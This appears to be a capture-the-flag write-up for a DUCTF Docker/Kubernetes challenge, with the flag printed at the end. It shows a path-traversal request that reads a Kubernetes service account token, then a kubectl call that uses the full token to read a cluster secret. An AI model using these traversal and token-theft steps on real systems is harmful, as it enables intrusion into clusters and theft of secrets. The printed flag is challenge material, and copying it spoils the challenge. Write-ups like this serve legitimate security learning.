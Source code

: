 #### Challenge:

You're probably thinking, oh wow here is another challenge author thinking they would be smart by having the word whale in the challenge title, oh wow it's probably Docker. Well you're right whale=docker this challenge has to do with docker. Get that flag ⛳.

**NOTE**: You may experience some SSL issue will completing this challenge, please ignore them. We are working on a fix.

[whale-blog.duc.tf](http://whale-blog.duc.tf:30000/)

---

#### Solution:

First, we noticed `Local File Inclusion (LFI)` vulnerability in the provided site. Since the challenge hints at `whales` we figured that it runs on `kubernetes`. With that we used the LFI to get the token of the serviceaccount:

```bash
curl http://whale-blog.duc.tf:30000/?page=../../../../../../run/secrets/kubernetes.io/serviceaccount/token
```

With that we were able to run kubectl commands against the cluster. After some time poking around we found the `flag` in one of the `secrets`:

```bash
kubectl get secret nooooo-dont-read-me -o json --server https://whale-endpoint.duc.tf:443 --token eyJhbGciOiJSUzI1NiIsImtpZCI6Il9aWTAzOVpGRXVLVUJMdngzbDJ2b1ZnRV9QOXVHTHI2WC1QeVBzWGp1eGMifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJkZWZhdWx0Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZWNyZXQubmFtZSI6ImRlZmF1bHQtdG9rZW4tZ3RqYjciLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC5uYW1lIjoiZGVmYXVsdCIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VydmljZS1hY2NvdW50LnVpZCI6IjY4OTllYzliLWQyNGMtNDNlMS1hNzFiLWZlZjAzOWRkY2RkZiIsInN1YiI6InN5c3RlbTpzZXJ2aWNlYWNjb3VudDpkZWZhdWx0OmRlZmF1bHQifQ.VbWj-lRsEhste-RvsjFaYM_ndXXVK1AzyIlcuuNoc1Q5DZmKJZDQdLVCLIJSKQR5vCByACDPRGTLGeJTyVr3Abx_Oa_t2Pkov62BExBq-HSk8Y-HZYDicKG5bSrdMT2UkvSONttX-u-5q0mtrNPpWkIoFDRg0g-bX_h6ggme4ZcMT9ccyH_LUeaM9l_0DG5bYFWMUd1smCom1M7kTzz8rEllL7VfS1-FJ_9s7MuHQ280nSFqH90iAu7UQcrMhxsP-96d9sI-Tkqwkw-gL3orovdiLXbed_VPdp-D5HE14Olr5ZM_rSsl4ki56y1VXJbOzC1rK9Qrm3qLxk4Njs3SMw --insecure-skip-tls-verify
```

---

<details><summary>FLAG:</summary>

```
DUCTF{g00nies_got_th1s_l4st_year_now_u_did!}
```

</details>
<br/>
